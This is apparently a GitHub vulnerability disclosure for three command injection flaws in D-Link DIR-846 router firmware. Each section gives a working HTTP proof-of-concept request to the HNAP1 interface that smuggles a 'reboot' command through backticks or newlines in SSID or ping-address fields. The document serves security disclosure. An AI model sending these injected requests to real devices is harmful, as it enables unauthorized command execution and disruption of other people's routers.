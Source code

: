 # DIR-846_Command_Injection

#### Impact equipment

D-LINK DIR-846 (Rev A) ALL

#### Firmware

DIR846A1_FW100A43 link http://support.dlink.com.cn:9000/ProductInfo.aspx?m=DIR-846

DIR846enFW100A53DLA-Retail.bin link https://la.dlink.com/la/ftp_download.php?arch=DIR-846/DIR846enFW100A53DLA-Retail.bin

## Vulnerability1(CVE-2021-46315)

#### Describe

​	The latest version of D-Link Router DIR-846 DIR846A1_FW100A43.bin && DIR846enFW100A53DLA-Retail.bin  has a command injection vulnerability in HNAP1/control/SetMasterWLanSettings.php. Attackers can use this vulnerability to use "\n" or backticks to bypass the shell metacharacters in the ssid0 or ssid1 parameters to execute arbitrary commands.

#### Detail

​	This vulnerability is due to the fact that **CVE-2019-17509** is not fully patched and can be bypassed by using line breaks or backticks on its basis.

<img src="./img/image-20211226102113922.png" alt="image-20211226102113922" style="zoom:50%;" />

#### POC

 ```
 POST /HNAP1/ HTTP/1.1
 Host: 192.168.0.1
 User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:95.0) Gecko/20100101 Firefox/95.0
 Accept: application/json
 Accept-Language: en-US,en;q=0.5
 Accept-Encoding: gzip, deflate
 Content-Type: application/json
 SOAPACTION: "http://purenetworks.com/HNAP1/SetNetworkTomographySettings"
 HNAP_AUTH: AB26D09C30FC07AF9FA05EF59B3B2558 1640421298429
 Content-Length: 284
 Origin: http://192.168.0.1
 Connection: close
 Referer: http://192.168.0.1/Diagnosis.html?t=1640421281425
 Cookie: uid=fN5PwZCT; PrivateKey=B2488589E39C47E4F8349060E88008DE; PHPSESSID=6209b08bddf630e68695800cd08e4203; sys_domain=dlinkrouter.com; timeout=2
 
 {"SetMasterWLanSettings":{"wl(0).(0)_enable":"1","wl(0).(0)_ssid":"`reboot`","wl(0).(0)_preshared_key":"aXJrZXJPZ2dNVEl6TkRVMk56Zz0=","wl(0).(0)_crypto":"aestkip","wl(1).(0)_enable":"1","wl(1).(0)_ssid":"\nreboot\n","wl(1).(0)_preshared_key":"aXJrZXJPZ2c=","wl(1).(0)_crypto":"none"}}
 ```

#### TEXT

​	The following data packets will cause the router to restart	<img src="./img/image-20211226102955168.png" alt="image-20211226102955168" style="zoom:50%;" />

## Vulnerability2(CVE-2021-46315)
#### Describe

​	HNAP1/control/SetWizardConfig.php in the latest version of D-Link Router DIR-846 DIR846A1_FW100A43.bin && DIR846enFW100A53DLA-Retail.bin  represents an injection vulnerability. Attackers can use this vulnerability to use "\n" or backticks in the shell metacharacters in the ssid0 or ssid1 parameters to cause arbitrary command execution.

#### Detail

​	Since cve-2019-17510 vulnerability has not been patched and improved / squashfs root / www / hnap1 / control / setwizardconfig. In PHP, you can also use line breaks and backquotes to bypass

<img src="./img/image-20211226104615847.png" alt="image-20211226104615847" style="zoom:50%;" />

#### POC

```
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
SOAPACTION: "http://purenetworks.com/HNAP1/SetNetworkTomographySettings"
HNAP_AUTH: AB26D09C30FC07AF9FA05EF59B3B2558 1640421298429
Content-Length: 76
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/Diagnosis.html?t=1640421281425
Cookie: uid=fN5PwZCT; PrivateKey=B2488589E39C47E4F8349060E88008DE; PHPSESSID=6209b08bddf630e68695800cd08e4203; sys_domain=dlinkrouter.com; timeout=2

{"SetWizardConfig":{"wl(1).(0)_ssid":"`reboot`","wl(0).(0)_ssid":"aa\nreboot\n"}}
```

#### TEXT

<img src="./img/image-20211226105603738.png" alt="image-20211226105603738" style="zoom:50%;" />

## Vulnerability3(CVE-2021-46314)

#### Describe

There is command injection in HNAP1/control/SetNetworkTomographySettings.php of D-Link Router DIR-846 DIR846A1_FW100A43.bin && DIR846enFW100A53DLA-Retail.bin, and backticks can be used for command injection when judging whether it is a reasonable domain name.

#### Detail

The following domain names can be constructed for command injection

```
www.baidu.com/'`reboot`'
```

<img src="./img/image-20211222113830764.png" alt="image-20211222113830764" style="zoom:50%;" />

#### POC

```
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
SOAPACTION: "http://purenetworks.com/HNAP1/SetNetworkTomographySettings"
HNAP_AUTH: B573700726C0DE33335368EFA98967D4 1640426452615
Content-Length: 199
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/Diagnosis.html?t=1640426411756
Cookie: uid=yo1BBSdJ; PrivateKey=F307B0A38DD86259C01188B535369C5A; PHPSESSID=6209b08bddf630e68695800cd08e4203; sys_domain=dlinkrouter.com; timeout=4

{"SetNetworkTomographySettings":{"tomography_ping_address":"www.baidu.com/'`reboot`'","tomography_ping_number":"22","tomography_ping_size":"40","tomography_ping_timeout":"","tomography_ping_ttl":""}}
```

#### TEXT

​	The router sending the packet will restart

<img src="./img/image-20211226103503414.png" alt="image-20211226103503414" style="zoom:50%;" />
